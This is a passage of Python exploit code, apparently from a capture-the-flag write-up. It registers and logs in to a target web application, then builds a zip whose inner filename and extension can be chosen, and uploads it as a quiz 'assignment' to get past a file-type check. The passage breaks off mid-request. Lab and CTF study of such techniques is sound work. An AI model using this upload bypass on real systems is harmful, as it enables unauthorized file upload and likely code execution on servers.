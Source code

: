 ```python
        "password": password
    }
    r = s.post(f"http://{target}/login.php", data=data)
    return r.status_code

username = f"tokugero"
password = "tokugero"
userrand = register("toku", "gero", username, password)
login(userrand, password)

def extension_exploit(newtemplate, target, extension):
    def zip_byte_string(byte_string, extension=extension):
        """Zip a byte string with a randomized filename.
        
        Args:
            byte_string (bytes): The byte string to be zipped.
            extension (str): File extension for the archived file.
        
        Returns:
            bytes: The zipped data as bytes.
        """
        # Generate a random filename
        random_name = ''.join(random.choices(string.ascii_letters + string.digits, k=12)) + extension
        
        # Create an in-memory zip file
        zip_buffer = io.BytesIO()
        
        with zipfile.ZipFile(zip_buffer, 'w') as zipf:
            # Add the byte string to the zip with the random name
            zipf.writestr("original.pdf", byte_string)
        
        # Get the zipped data as bytes
        zip_renamed = io.BytesIO()

        with zipfile.ZipFile(zip_buffer, 'r') as zip_in: #<--- here we're making our parent zip file
            with zipfile.ZipFile(zip_renamed, 'w') as zip_out: #<--- here we're making a child zip file where we can control the filename by the byte
                for entry in zip_in.infolist():
                    data = zip_in.read(entry.filename)
                    if entry.filename == "original.pdf":
                        entry.filename = random_name
                    zip_out.writestr(entry, data)
        
        zip_buffer.close()

        zip_data_renamed = zip_renamed.getvalue()
        zip_renamed.close()

        return zip_data_renamed

    # Zip it with a random name
    zipped_data = zip_byte_string(newtemplate)

    files = {
        "info": (None, "How to be the next Leonardo Da Vinci! - Final"),
        "quizz_id": (None, "36"),
        "file": ("assignment.zip", zipped_data, "application/zip")
    }

    params = {
        "s_id": 36
```